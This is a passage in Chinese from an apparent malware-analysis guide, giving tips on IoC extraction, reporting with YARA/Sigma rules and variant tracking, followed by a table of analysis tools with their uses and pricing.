| 只提取C2域名作为IoC | IoC应包含文件哈希、注册表、文件路径、网络特征等多维度 |
| 分析完不写报告 | 产出标准化报告和YARA/Sigma规则，转化为防御能力 |
| 只关注当前样本 | 用模糊哈希(ssdeep)关联变种家族，追踪完整威胁图谱 |

### 工具清单

| 工具 | 用途 | 免费/付费 |
|------|------|----------|
| IDA Pro / Ghidra | 静态反编译 | IDA付费/ Ghidra免费 |
| x64dbg / OllyDbg | 动态调试 | 免费 |
| PEStudio | PE文件快速分析 | 免费 |
| Detect It Easy (DIE) | 壳检测和编译器识别 | 免费 |
| UPX | 脱壳（标准UPX壳） | 免费 |
| Wireshark / tshark | 网络流量分析 | 免费 |
| Procmon / ProcExp | 行为监控（文件/注册表/进程） | 免费 |
| Volatility | 内存取证 | 免费 |
| YARA | 规则编写和样本匹配 | 免费 |
| ssdeep | 模糊哈希（相似样本关联） | 免费 |
| Any.Run / Hybrid Analysis | 在线沙箱 | 免费/付费 |
| VirusTotal | 多引擎在线扫描 | 免费/付费 |

***
